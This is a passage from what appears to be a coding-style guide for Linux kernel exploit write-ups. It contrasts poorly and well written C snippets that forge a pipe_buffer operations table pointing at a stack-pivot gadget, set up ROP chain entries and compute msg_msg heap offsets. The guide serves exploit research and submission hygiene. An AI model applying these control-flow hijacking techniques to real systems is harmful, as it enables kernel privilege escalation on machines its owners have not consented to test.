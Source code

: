```c
*(size_t *)&rop[0x10] = rop_addr + 0x20;
*(size_t *)&rop[0x28] = PIVOT3;
```
</td>
<td valign="top" markdown="1" style="background:rgba(0,255,0,0.05)">

```c
#define PIPE_BUFFER_OFFS_OPS 0x10
#define PIPE_BUF_OPS_OFFS_RELEASE 0x08

…

const int ops_offset = 0x20;

// struct pipe_buffer
char* fake_pipe = &buf[0];
*(uint64_t *)&fake_pipe[PIPE_BUFFER_OFFS_OPS] =
    buf_addr + ops_offset;

// struct pipe_buf_operations
char* fake_ops = &buf[ops_offset];
*(uint64_t *)&fake_ops[PIPE_BUF_OPS_OFFS_RELEASE] =
    PUSH_RSI_JMP_RSI_0x39;
```
</td>
    </tr>
</table>

Sizes should be defined as `<struct_name>_SIZE`.

<table width="100%">
    <tr>
        <td width="50%">❌ Code to be improved</td>
        <td width="50%">✅ Expected code quality</td>
    </tr>
    <tr>
<td valign="top" markdown="1" style="background:rgba(255,0,0,0.05)">

```c
struct pipe_buffer *pbuf = (struct pipe_buffer *)
    &msg.mtext[0x1000 - 0x30 - 0x8];
```
</td>
<td valign="top" markdown="1" style="background:rgba(0,255,0,0.05)">

```c
#define PAGE_SIZE 0x1000
#define MSG_MSG_SIZE 0x30
#define MSG_MSGSEG_SIZE 0x8

…

struct pipe_buffer *pbuf = (struct pipe_buffer *)
    &msg.mtext[PAGE_SIZE - MSG_MSG_SIZE - MSG_MSGSEG_SIZE];
```
</td>
    </tr>
</table>
